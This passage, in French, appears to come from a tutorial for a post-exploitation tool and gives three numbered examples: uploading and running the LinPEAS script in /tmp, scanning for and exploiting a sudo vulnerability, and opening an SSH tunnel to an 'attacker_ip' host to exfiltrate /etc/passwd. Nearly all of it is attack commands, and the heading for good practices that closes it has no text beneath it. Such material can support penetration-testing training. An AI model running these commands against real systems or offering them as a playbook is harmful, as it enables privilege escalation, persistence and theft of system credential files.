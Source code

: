 #### Exemple 4 : Uploader un Script d'Exploitation et Maintenir une Session

1.  **Uploader un script LinPEAS** :

    ```bash
    run shell.upload src="/path/to/linpeas.sh" dest="/tmp/linpeas.sh"
    ```
2.  **Exécuter le script** :

    ```bash
    run shell.interactive
    bash /tmp/linpeas.sh
    ```
3.  **Maintenir une session persistante** :

    ```bash
    run session.list
    ```

***

#### Exemple 5 : Exploiter une Vulnérabilité Sudo

1.  **Rechercher les vulnérabilités Sudo** :

    ```bash
    run escalate.sudo
    ```
2.  **Si une vulnérabilité est détectée, lancer l’exploitation** :

    ```bash
    run exploit.sudo_vuln
    ```

***

#### Exemple 6 : Configurer un Tunnel pour Exfiltration de Données

1.  **Démarrer un tunnel SSH sécurisé** :

    ```bash
    run network.ssh_tunnel remote_host=attacker_ip remote_port=22 local_port=8080
    ```
2.  **Utiliser le tunnel pour exfiltrer des fichiers sensibles** :

    ```bash
    run shell.download src="/etc/passwd" dest="./passwd_copy"
    ```

***

### 📖 Bonnes Pratiques

***
